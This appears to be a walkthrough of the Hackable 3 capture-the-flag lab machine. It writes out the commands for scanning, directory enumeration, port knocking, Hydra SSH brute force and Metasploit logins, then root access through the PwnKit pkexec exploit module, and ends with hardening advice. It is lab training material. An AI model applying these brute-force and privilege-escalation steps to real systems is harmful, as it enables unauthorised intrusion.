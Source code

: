 #  Hackable 3 CTF – Summary Walkthrough  

A full text-based breakdown of the Hackable 3 vulnerable machine. This box demonstrates port knocking, multi-layered credential discovery, and privilege escalation via the pkexec vulnerability.  

##  Discovery  
- Ran initial scans:  
nmap -sV -Pn <ip>
nmap -A <ip>

- Found ports:  
- 80 (HTTP – Apache)  
- 22 (SSH – filtered)  

 SSH appeared filtered, suggesting firewall restrictions or a port-knocking requirement.  

##  Enumeration  
- Ran `gobuster` on HTTP service:  
gobuster dir -u http://<ip>/ -w /usr/share/wordlists/dirb/common.txt -x jpg,html,php,bak,zip,log

- Discovered multiple paths:  
- `/files`  
- `/3.jpg`  
- `/backup`  
- `/config.php`  
- `/css`  
- `/home.html`  
- `/imagens`  
- `/login.php`  
- `/robots.txt`  

✅ Source code of main page revealed **username hint** (`jubiscleudo`) and port-knocking sequence clues.  

##  Foothold  
- Extracted knock sequence from hidden files:  
- `/config/1.txt` → Base64 encoded  
- `/css/2.txt` → Brainfuck encoded (decoded online)  
- `/3.jpg` → Hidden data extracted with `steghide`  

- Executed knock sequence:  
knock <ip> <port1> <port2> <port3>

→ Opened port 22 (SSH).  

- Brute-forced SSH with Hydra:  
hydra -l jubiscleudo -P wordlist.txt ssh://<ip>

- Alternatively, automated login with Metasploit:  
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <ip>
set USERNAME jubiscleudo
set PASSWORD <found-password>
run

✅ Gained SSH access as `jubiscleudo`.  

##  User Escalation (jubiscleudo → hackable_3)  
- Found credentials in `.backup_config.php`:  
cat /var/www/html/.backup_config.php

- Switched user:  
su hackable_3

✅ Access as user `hackable_3`.  

##  Privilege Escalation (hackable_3 → root)  
- Searched for SUID binaries:  
find / -perm -4000 -type f 2>/dev/null

- Found vulnerable **pkexec** binary (Polkit).  

- Upgraded shell to Meterpreter:  
sessions -u <id>

- Used Metasploit exploit:  
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set SESSION <meterpreter-id>
run

✅ Root shell obtained. 🎉  

---

## 🛡 Recommendations  
- **Restrict SSH Access:**  
Configure `/etc/ssh/sshd_config`:  
PermitRootLogin no
PasswordAuthentication no

- **Avoid Storing Credentials in Code:**  
Never place sensitive data (e.g., `.backup_config.php`) in web-accessible directories.  

- **Patch Vulnerable Binaries:**  
Update Polkit to address `pkexec` vulnerability:  
sudo apt update && sudo apt upgrade polkit

Regularly check for updates:  
sudo apt list --upgradable

---

📖 **Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/hackable-3-ctf-full-technical-walkthrough-5d4d35b44562)
